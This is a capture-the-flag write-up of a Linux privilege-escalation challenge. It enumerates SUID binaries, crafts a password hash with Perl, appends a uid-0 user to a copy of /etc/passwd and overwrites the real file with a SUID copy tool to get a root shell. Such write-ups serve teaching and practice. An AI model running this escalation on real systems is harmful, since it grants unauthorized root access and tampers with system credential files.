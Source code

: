 # OBJECTIVE 7 - Linux PrivEsc #
_Completed by 13.26% of challenge participants_
## OBJECTIVE : ##
>Rosemold is in Ostrich Saloon on the Island of Misfit Toys.  Give her a hand with escalation for a tip about hidden islands.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 7</summary>
  
>-  There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
>-	Using the privileged binary to overwrite a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

</details>

#  

## PROCEDURE : ##

Let’s start this challenge by looking in the `/bin` folder to see what tools we have to our disposition:

``~$ cd /bin``

``/bin$ ls -la | grep rwsr``

```
-rwsr-xr-x 1 root root     85064 Nov 29  2022 chfn
-rwsr-xr-x 1 root root     53040 Nov 29  2022 chsh
-rwsr-xr-x 1 root root     88464 Nov 29  2022 gpasswd
-rwsr-xr-x 1 root root     55528 May 30  2023 mount
-rwsr-xr-x 1 root root     44784 Nov 29  2022 newgrp
-rwsr-xr-x 1 root root     68208 Nov 29  2022 passwd
-rwsr-xr-x 1 root root     16952 Dec  2 22:17 simplecopy
-rwsr-xr-x 1 root root     67816 May 30  2023 su
-rwsr-xr-x 1 root root     39144 May 30  2023 umount
```

This gives us a list of applications we can run with root privileges.  Simplecopy is particularly interesting as it will allow us to copy (and overwrite) and file to any directory with root privileges. So, we should be able to create a new user by overriding the existing `/etc/passwd` file with a manually crafted one.

First, we copy the contents of `/etc/passwd` to a temporary file:

`~$ cat /etc/passwd >> /tmp/new-passwd`

Now we need to create a hashed password.  This can be done using Perl.

`~$ perl -le 'print crypt("snowballz", "abc")'`
```
abCF8jIEHXtsw
```

This gives us a salted hash for password “snowballz”, which we can now assign to a new user called “super-elf” which we append to our new passwd file:

`~$echo super-elf:abCF8jIEHXtsw:0:0:root:/root:/bin/bash >> /tmp/new-passwd`

we can now use simplecopy to overwrite /etc/passwd with our newly crafted file:

`~$ simplecopy /tmp/new-passwd /etc/passwd`

And switch to the newly created root user:

`~$ su super-elf`
```
Password: 
/home/elf#
```

We can now confirm that we now have root privileges 😊

`/home/elf# whoami`
```
Root
```

All that’s left is for us to run the binary in the /root folder:
```
/home/elf# cd /root
~# ./runmetoanswer
```


